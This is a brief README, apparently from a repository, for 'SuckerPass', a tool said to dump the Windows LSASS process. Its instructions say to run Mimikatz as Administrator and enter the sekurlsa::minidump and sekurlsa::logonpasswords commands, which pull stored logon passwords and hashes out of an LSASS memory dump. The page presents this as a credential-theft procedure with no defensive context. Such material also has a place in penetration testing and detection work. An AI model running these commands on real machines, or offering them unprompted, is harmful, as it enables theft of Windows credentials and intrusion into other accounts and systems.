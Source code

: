 # SuckerPass
SuckerPass is a tool that dumps the LSASS process on Windows.

![SuckerPass Logo](img/Sucker.PNG)

#Intructions
* Download Mimikatz;
* Run Mimikatz as Administrator;
* Enter the following commands;
  <pre>
```bash
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
</pre>
